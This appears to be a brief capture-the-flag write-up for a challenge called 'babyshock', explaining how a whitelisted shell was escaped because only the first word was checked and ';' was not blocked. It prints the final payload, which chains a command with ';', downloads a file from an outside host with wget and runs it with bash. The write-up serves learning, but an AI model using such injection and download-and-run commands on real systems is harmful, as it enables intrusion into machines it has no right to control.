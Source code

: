 # babyshock

- A shell environment with only a whitelist of commands allowed.
- `;` wasn't blacklist, so could execute any command as only the command before the first whitespace was checked in the whitelist
- Final payload was something like:
```
id ; wget pb.hn
bash index.html
```
